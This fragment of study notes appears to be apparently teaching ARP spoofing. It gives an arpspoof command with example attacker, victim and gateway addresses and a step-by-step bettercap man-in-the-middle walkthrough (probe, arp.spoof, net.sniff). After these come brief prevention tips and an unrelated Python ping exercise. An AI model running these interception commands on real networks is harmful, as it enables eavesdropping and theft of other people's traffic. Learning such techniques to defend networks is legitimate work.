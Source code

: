     a) Arpspoof -i interface -t target -r defaultgatewayip

- NOTE: 
    - ip of attacker: 192.168.1.8
    - Ip of victim: 192.168.1.3
    - gatewap : 192.168.1.1   
>>> After i started the arpspoof now the mac of the gateway is same with the attacker/kali machine. 
#### demo 

1) Install bettercap

2) Start bettecap

3) Scan the network
    
    a) net.probe on

    b) net.show => to see the network

4) Start arp spoofing

    a) set arp.spoof.targets <ip>

    b) arp.spoof on

5) Start Mitm
    
    a) net.sniff on

    b) net.sniff off 
### Prevention 
1. Using static ARP tables: manually setted

2. Switch security: some feature for ARP poisoning

3. Encryption: not for arp but in case of leaks 
### Simple python topro  

1) Write a program that accepts input from the user and check if the 
link is up or down.
    
    a) use os package/module

    b) os.popen("ping -n 1 google.com").read()
    
    c) This will tell you if 

    d) And try algorithm like searching from the result of the upper hint
        i) If (“hello world” or “best”) in “hello world is the best quote.”: -> on 
python this will work fine

e) Try to understand the difference between the result of down ping and 
up ping 